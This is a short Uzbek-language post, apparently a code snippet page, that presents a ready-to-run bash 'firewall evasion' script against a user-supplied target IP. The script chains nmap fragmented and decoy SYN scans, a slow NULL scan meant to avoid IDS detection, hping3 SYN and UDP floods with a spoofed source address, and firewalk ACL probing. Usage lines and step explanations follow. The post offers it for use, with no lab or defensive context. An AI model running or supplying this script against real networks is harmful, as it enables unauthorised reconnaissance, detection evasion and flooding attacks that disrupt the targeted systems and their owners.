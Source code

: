  Mana siz uchun Nmap + hping3 + decoy + fragment + timing asosida tuzilgan Firewall evasion bash script 🚀.

**🛠️ Advanced Firewall Evasion Bash Script**
#!/bin/bash

TARGET=$1
INTERFACE="eth0"

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target-ip>"
    exit 1
fi

echo "[*] Starting Advanced Firewall Bypass Scan on $TARGET"

# Step 1: Fragmented & Decoy SYN Scan
echo "[*] Step 1: Nmap Fragmented SYN Scan with Decoy IPs"
nmap -sS -f -D RND:10 -p- -T2 --data-length 50 --source-port 443 $TARGET -oN nmap_frag_decoy.txt

# Step 2: Slow Stealth Scan (Null Scan)
echo "[*] Step 2: Slow NULL Scan"
nmap -sN -p- -T1 $TARGET -oN nmap_null_stealth.txt

# Step 3: TTL & Spoofed source scan via hping3
echo "[*] Step 3: TTL Manipulation + Spoofed Scan"
hping3 -S -p 80 --spoof 8.8.8.8 --ttl 5 --flood $TARGET

# Step 4: IDS Bypass - UDP Flood on random ports
echo "[*] Step 4: UDP flood on high ports"
hping3 --udp -p ++60000 --flood $TARGET

# Step 5: Firewalk routing & ACL analysis
echo "[*] Step 5: Firewalk scan"
firewalk -S 1-1024 -i $INTERFACE -n -p TCP $TARGET $(ip r | grep default | awk '{print $3}')

echo "[*] All scans completed. Check the generated output files."

**⚙️ Script nimalarni qiladi?**
Nmap fragment + decoy bilan stealth SYN scan.

NULL Scan (IDS’ga shubhasiz scan) super sekin rejimda.

hping3 orqali TTL va spoof qilingan IP yordamida firewall bypass.

UDP flood bilan ba’zi firewall’ni doimiy monitoringda chalg‘itish.

firewalk orqali ACL va routing aniqlash.

**using**
chmod +x fw-bypass.sh
./fw-bypass.sh <target-ip>
